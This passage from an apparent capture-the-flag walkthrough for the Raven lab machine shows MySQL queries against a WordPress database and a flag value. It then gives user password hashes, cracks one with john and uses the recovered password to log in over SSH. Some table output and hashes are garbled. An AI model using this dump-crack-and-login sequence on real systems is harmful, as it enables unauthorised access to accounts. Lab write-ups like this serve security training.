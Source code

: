    ```bash
   | wp_commentmeta            |
   | wp_comments               |
   | wp_links                  |
   | wp_options                |
   | wp_postmeta               |
   | wp_posts                  |
   | wp_users                  |
   | # Rest omitted...         |
   +---------------------------+
   12 rows in set (0.00 sec)

    mysql> select * from users;
     ```

   ![](Images/mysqldump.png)
    
  ```sql
    -- Find flag3.txt in the blog
    mysql> select * from wp_posts;
    -- Prints a lot of text; scroll through it to find flag3: flag3{afc01ab56b50591e7dccf93122770cd2}
  | flag4    	|          	| inherit 	| closed     	| closed  	|           	| 4-revision-v1 |     	|    	| 2018-08-12 23:31:59 | 2018-08-12 23:31:59 |                   	|       	4 | http://raven.local/wordpress/index.php/2018/08/12/4-revision-v1/ |      	0 | revision  |            	|         	0 |
  |  7 |       	2 | 2018-08-13 01:48:31 | 2018-08-13 01:48:31 | flag3{afc01ab56b50591e7dccf93122770cd2}                                                                         	
  ```


7. Crack password hashes with `john`.

   -  Create a wp_hashes.txt with Steven and Michael's hashes, formatted as follows
    
      ```
      michael:$P$$8jRvZQ.VQcGZ1DeiKToCQd.cPw5XCe0
      steven:$P$8kJVD9jsxx/loJoqNsURgHiaB23j7W/
      ```
   - Use `john` to crack the hashes.

      ```bash
      # Michael's password won't crack
      $ john wp_hashes.txt
      $ john -show wp_hashes.txt
      steven:pink84
      ```

8. Secure a user shell as the user whose password you cracked.

    ```bash
    $ ssh steven@192.168.1.110
    Enter password: pink84
    ```
